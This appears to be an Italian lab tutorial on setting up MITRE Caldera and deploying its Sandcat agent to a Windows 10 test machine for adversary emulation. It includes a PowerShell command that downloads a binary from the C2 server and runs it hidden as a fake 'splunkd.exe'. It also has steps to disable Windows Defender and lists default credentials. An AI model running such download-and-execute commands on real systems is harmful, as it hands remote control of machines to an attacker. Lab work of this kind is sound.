










# MITRE Caldera - Adversary Emulation

## Cos'è CALDERA

CALDERA (Cyber Adversary Language, Decision-making, and Reasoning Architecture) è un framework open-source sviluppato da MITRE che:

- Automatizza l'emulazione di comportamenti avversari
- È basato sulla matrice MITRE ATT&CK
- Supporta plugin espandibili per funzionalità aggiuntive
- Permette il testing di capacità difensive (Blue Team)

---

## Come Funziona

```
1. Server Caldera (C2)
         |
         v
2. Agenti (Paws) sui target
         |
         v
3. Profili Avversari (Adversary Profiles)
         |
         v
4. Campagne di emulazione
         |
         v
5. Report e Analisi
```

---

## Ambiente di Test

| Macchina | OS | IP | Ruolo |
|----------|----|----|-------|
| Attacker | Kali Linux | 192.168.23.128 | Server Caldera |
| Target | Windows 10 | 192.168.23.130 | Agente (Sandcat) |

---

## Prerequisiti

### Su Kali Linux

```
sudo apt update
sudo apt install -y python3 python3-venv python3-pip git nodejs npm
```

### Su Windows 10

- Windows Defender disabilitato (per il laboratorio)
- Privilegi di amministratore (consigliati)

---

## Procedura Passo-Passo

### Step 1: Crea la Directory di Lavoro

```
mkdir -p ~/Desktop/caldera_lab
cd ~/Desktop/caldera_lab
```

### Step 2: Clona il Repository

```
git clone https://github.com/mitre/caldera.git --recursive
cd caldera/
```

### Step 3: Crea l`Ambiente Virtuale Python

```
python3 -m venv venv
source venv/bin/activate
```

### Step 4: Installa le Dipendenze Python

`pip3 install -r requirements.txt`

### Step 5: Aggiorna i Submodule

`git submodule update --init --recursive`

### Step 6: Installa le Dipendenze Node.js

`npm install --legacy-peer-deps`

### Step 7: Avvia Caldera

`python3 server.py --insecure --build`



### Step 8: Accedi all`Interfaccia Web

Apri il browser e naviga su:

`http://0.0.0.0:8888`

**Credenziali di default:**

| Campo | Valore |
|-------|--------|
| Username | `red` |
| Password | `admin` |



---



## Utilizzo Base

### Step 9: Deploy di un Agente (Sandcat)

Nell'interfaccia web, vai su **"Agents"** → **"Deploy an agent"**





**Comando generato da Caldera:**

```
$server="http://192.168.23.128:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("architecture","amd64");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

### Step 10: Esegui sul Target Windows

1. Su Windows 10, disabilita Windows Defender:
2. Apri **PowerShell come Amministratore**
3. Incolla il comando generato da Caldera
4. Premi `INVIO`



**L'agente viene eseguito in background.** Non vedrai output.

### Step 11: Verifica l`Agente

Nell'interfaccia web di Caldera, vai su **"Agents"**:



### Step 12: Crea un`Operazione

Vai su **"Operations"** → **"New Operation"**



Clicca su **"Start"**

### Step 13: Monitora l`Esecuzione

L'operazione eseguirà tecniche di **Discovery**:



| Ordine | Tecnica | Stato | Descrizione |
|--------|---------|-------|-------------|
| 1 | Identify active user | ✅ Success | Trova l'utente loggato |
| 2 | Identify local users | ✅ Success | Elenca gli utenti locali |
| 3 | Find user processes | ✅ Success | Trova i processi in esecuzione |
| 4 | View admin shares | ✅ Success | Elenca le condivisioni amministrative |
| 5 | Discover domain controller | ❌ Failed | Cerca un domain controller (non presente) |
| 6 | Discover antivirus programs | ✅ Success | Rileva Windows Defender |
| 7 | Permission Groups Discovery | ✅ Success | Trova i gruppi dell`utente |
| 8 | Identify Firewalls | ✅ Success | Rileva il firewall Windows |

**Nota:** `Discover domain controller` fallisce se il sistema non è in un dominio Active Directory. È un comportamento normale.

### Step 14: Verifica sul Target (Windows 10)

**Controlla il processo:**

`tasklist | findstr splunkd`

**Controlla la connessione di rete:**

`netstat -ano | findstr 8888`



---

---

## Pulizia

### Su Windows 10

```
# Termina il processo agente
taskkill /F /IM splunkd.exe

# Elimina il file
del C:\Users\Public\splunkd.exe

# Riattiva Windows Defender
```

### Su Kali Linux

```
# Ferma Caldera
CTRL+C

# Disattiva l'ambiente virtuale
deactivate

# Rimuovi la directory di lavoro (opzionale)
rm -rf ~/Desktop/caldera_lab
```

---

## Note di Sicurezza

> **⚠️ ATTENZIONE**: Caldera è un potente tool di emulazione. Utilizzalo solo in ambienti di test autorizzati. I plugin possono eseguire azioni dannose se usati impropriamente.